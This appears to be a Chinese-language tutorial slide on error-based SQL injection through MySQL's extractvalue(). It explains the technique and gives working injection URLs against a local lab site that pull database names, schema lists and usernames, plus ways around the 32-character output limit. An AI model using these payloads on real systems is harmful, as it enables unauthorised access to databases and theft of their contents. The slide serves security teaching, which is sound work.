

SQL注入漏洞-报错注入
A.extractvalue
extractvalue函数语法：extractvalue(xml_document,Xpath_string)，
第一个参数：xml_document是string格式，为xml文档对象的名称，
第二个参数：Xpath_string是xpath格式的字符串，作用是从目标xml中返回包含所查询值的字符串。
第二个参数是要求符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里，因此可以利用。
pyload：id='and(select extractvalue("anything",concat('~',(select语句))))

extractvalue实例：

查询当前数据库名和所有数据库名
http://127.0.0.1/cepo/?id=1’ and extractvalue(1,concat('^',(select database()),'^')) --+
http://127.0.0.1/cepo/?id=1’ and extractvalue(1,concat('^',(select group_concat(schema_name) from information_schema.schemata ),'^')) --+

查询数据库个数和数据库名
http://127.0.0.1/cepo/?id=1’ and extractvalue(1,concat('^',(select group_concat(username) from users),'^'))--+
http://127.0.0.1/cepo/?id=1’ and extractvalue(1,concat('^',(select username from users limit 0,1),'^'))--+
…
除了显示方式的构造语句不一样，脱库过程和联合查询基本一致。其中'^'可以换成’#’、’$’等不满足xpath格式的字符，extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位